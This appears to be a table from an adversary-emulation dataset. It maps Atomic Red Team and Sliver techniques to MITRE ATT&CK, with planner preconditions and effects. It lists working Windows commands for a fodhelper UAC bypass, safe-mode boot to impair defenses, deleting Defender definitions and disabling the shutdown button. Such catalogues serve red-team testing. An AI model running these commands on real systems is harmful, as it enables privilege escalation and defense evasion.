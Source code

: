 | 58f641ea-12e3-499a-b684-44dee46bd182 | Bypass UAC using Fodhelper | \['T1548.002'\] | ART | \['windows'\] | \['Defense Evasion', 'Privilege Escalation'\] | \['Abuse Elevation Control Mechanism: Bypass User Account Control'\] | Bypasses User Account Control using the Windows 10 Features on Demand Helper (fodhelper.exe). Requires Windows 10.<br>Upon execution, "The operation completed successfully." will be shown twice and command prompt will be opened.<br> | {'executor': 'Command Prompt Executor', 'command': 'reg.exe add hkcu\\software\\classes\\ms-settings\\shell\\open\\command /ve /d "#{executable_binary}" /f\nreg.exe add hkcu\\software\\classes\\ms-settings\\shell\\open\\command /v "DelegateExecute" /f\nfodhelper.exe\n'} | {'executable_binary': {'description': 'Binary to execute with UAC Bypass', 'type': 'path', 'default': 'C:\\Windows\\System32\\cmd.exe'}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)', '(file_exists ?executable_binary - path ?file - file ?target - host)', {'operator': 'or', 'operands': \['(exe_file ?file - file)'\]}\] | \['(file_executed_as_root ?file - file ?target - host)'\] |
| 1f401bbe-de24-41d2-8e34-d026e25bfb94 | Execute a Sliver Implant Payload | \['T1071.001'\] | Sliver | \['windows'\] | \['Command and Control'\] | \['Application Layer Protocol - Web Protocols'\] | Executing a Sliver implant payload will establish a Sliver session.<br> | {'executor': 'None', 'command': 'None\n'} | None | \['(sliver_implant_payload ?p - payload ?t - host)', '(file_payload ?p - payload ?f - file)', '(file_executed ?f - file ?t - host)', '(unallocated ?s - executor)'\] | \['(sliver_session ?s - executor ?t - host)', '~(unallocated ?s - executor)', {'operator': 'When', 'params': {'condition': '(file_executed_as_root ?f - file ?t - host)', 'effect': '(elevated_executor ?s - executor)'}}\] |
| 2074d817-7819-401b-b552-1045672f77f3 | Execute Command (cmd.exe) | \['T1059.003'\] | Sliver | \['windows'\] | \['Execution'\] | \['Command and Scripting Interpreter: Windows Command Shell\n'\] | The `cmd.exe` command executes a Windows command. It runs the specified command on the remote host and returns the result. This command is useful for performing various system tasks. | {'executor': 'Sliver Executor', 'command': 'cmd(#{SessionID},#{Commands})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \['(os_windows ?t - host)', '(sliver_session ?s1 - executor ?t - host)'\] | \['(command_prompt ?s2 - executor ?t - host)', {'operator': 'When', 'params': {'condition': '(elevated_executor ?s1 - executor)', 'effect': '(elevated_executor ?s2 - executor)'}}\] |
| 2a78362e-b79a-4482-8e24-be397bce4d85 | Safe Mode Boot | \['T1562.009'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Impair Defenses: Safe Mode Boot'\] | Allows adversaries to abuse safe mode to disable endpoint defenses that may not start with limited boot | {'executor': 'Elevated Command Prompt Executor', 'command': 'bcdedit /set safeboot network'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(endpoint_defense_disabled ?target - host)'\] |
| 3d47daaa-2f56-43e0-94cc-caf5d8d52a68 | Remove Windows Defender Definition Files | \['T1562.001'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Impair Defenses: Disable or Modify Tools'\] | Removing definition files would cause ATP to not fire for AntiMalware. Check MpCmdRun.exe man page for info on all arguments.<br>On later viersions of windows (1909+) this command fails even with admin due to inusfficient privelages. On older versions of windows the<br>command will say completed.<br><br>https://unit42.paloaltonetworks.com/unit42-gorgon-group-slithering-nation-state-cybercrime/<br> | {'executor': 'Elevated Command Prompt Executor', 'command': '"C:\\Program Files\\Windows Defender\\MpCmdRun.exe" -RemoveDefinitions -All\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(anti_malware_disabled ?target - host)'\] |
| 6e0d1131-2d7e-4905-8ca5-d6172f05d03d | Disable Windows Shutdown Button | \['T1112'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Modify Registry'\] | Modify the registry of the currently logged in user using reg.exe via cmd console to disable the windows shutdown button.<br>See how ransomware abuses this technique- https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/ransom.msil.screenlocker.a/<br> | {'executor': 'Elevated Command Prompt Executor', 'command': 'reg add "HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System" /v shutdownwithoutlogon /t REG_DWORD /d 0 /f\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(shutdown_button_disabled ?target - host)'\] |